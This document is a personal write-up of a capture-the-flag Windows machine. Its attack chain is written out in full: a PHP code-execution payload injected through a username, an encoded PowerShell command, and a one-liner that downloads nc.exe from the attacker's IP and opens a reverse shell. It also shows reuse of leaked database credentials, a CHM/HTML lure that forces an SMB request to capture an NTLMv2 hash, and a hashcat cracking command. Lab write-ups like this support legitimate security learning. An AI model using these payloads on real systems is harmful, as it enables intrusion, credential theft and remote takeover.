 # Information
- CTF Name: 
- CTF Level:
- CTF Description: 
- Date: 
- Platform: 
- Category: 

# Findings

## External
### Enumeration
![](https://i.imgur.com/KhuCssH.png)
![](https://i.imgur.com/mdPbUWv.png)
![](https://i.imgur.com/4yzX0OJ.png)
![](https://i.imgur.com/pDfGUNz.png)
`\inetpub/wwwroot/user/db.php`
![](https://i.imgur.com/TB9AnJ8.png)
- Using the PHP session u can refer on [[918. 📨File Inclusion]]
	- So To do this Attack, as you see the username of my account is displaying there for i created a new user with a payload as username `<?php system("whoami") ?>`
	![](https://i.imgur.com/wOZwXvh.png)
- Then Boom i got RCE. Now lets make it shell.
```shell
echo 'cmd /c "\\10.10.14.27\share\rex.php"' | iconv -f ascii -t utf-16le | base64 -w0

<?php echo `powershell /enc YwBtAGQAIAAvAGMAIAAiAFwAMQAwAC4AMQAwAC4AMQA0AC4AMgA3AFwAcwBoAGEAcgBlAFwAbgBjADYANAAuAGUAeABlACAALQBlACAAYwBtAGQAIAAxADAALgAxADAALgAxADQALgAyADcAIAA0ADQAMwAiAAoA` ?>

```
- Unfortunatly this doesnt work, so i went back to the 1st place and i just did impacket smb normal powershell
![](https://i.imgur.com/G1JjxPo.png)

![](https://i.imgur.com/rD1UB8t.png)
### Gaining Access
![](https://i.imgur.com/pjiKJcd.png)
## Internal
### Enumeration
- Tried to Run the SQL but it was not working, so i tried password re use and it workeed.
```shell
PS C:\inetpub\wwwroot> cat user/db.php
<?php
// Enter your Host, username, password, database below.
// I left password empty because i do not set password on localhost.
$con = mysqli_connect("localhost","dbuser","36mEAhz/B8xQ~2VM","sniper");
// Check connection
if (mysqli_connect_errno())
  {
  echo "Failed to connect to MySQL: " . mysqli_connect_error();
  }
?>

```
![](https://i.imgur.com/UIIQmGt.png)
### Gaining Access
```shell
$password = convertto-securestring -AsPlainText -Force -String "36mEAhz/B8xQ~2VM"; $credential = new-object -typename System.Management.Automation.PSCredential -argumentlist "SNIPER\chris",$password;Invoke-Command -ComputerName LOCALHOST -ScriptBlock { wget http://10.10.14.27/nc.exe -o C:\Users\chris\nc.exe } -credential $credential;Invoke-Command -ComputerName LOCALHOST -ScriptBlock { C:\Users\chris\nc.exe -e cmd.exe 10.10.14.27 4344} -credential $credential;
```
![](https://i.imgur.com/b5t5u08.png)
### Maintaining Access
```text
PS C:\Docs> cat note.txt
cat note.txt
Hi Chris,
	Your php skillz suck. Contact yamitenshi so that he teaches you how to use it and after that fix the website as there are a lot of bugs on it. And I hope that you've prepared the documentation for our new app. Drop it here when you're done with it.

Regards,
Sniper CEO
```
![](https://i.imgur.com/quzsJOt.png)
![](https://i.imgur.com/rZ8gT96.png)
- This Means, The Admin want to see the documentation and The instrustion tells Us that the format have to be CHM it is compiled HTML.
- For that i can Create A chm on my windows i can do simple smb request and crack the hash to get the password of the admin because th admin will be there to get the documentation of the project.
- I used this for the CHM then COnverted it to chm.
```html
<html>
<body>
<img src=\\10.10.14.27\share\rex.png />
</body>
</html>
```
![](https://i.imgur.com/0MFw4Bl.png)
![](https://i.imgur.com/95D0WvT.png)
```shell
hashcat for ntlmv2
rexder@station ~> hashcat -m 5600 --force ntlm.hash /opt/rockyou.txt
```
![](https://i.imgur.com/wWej3tR.png)


# Random Notes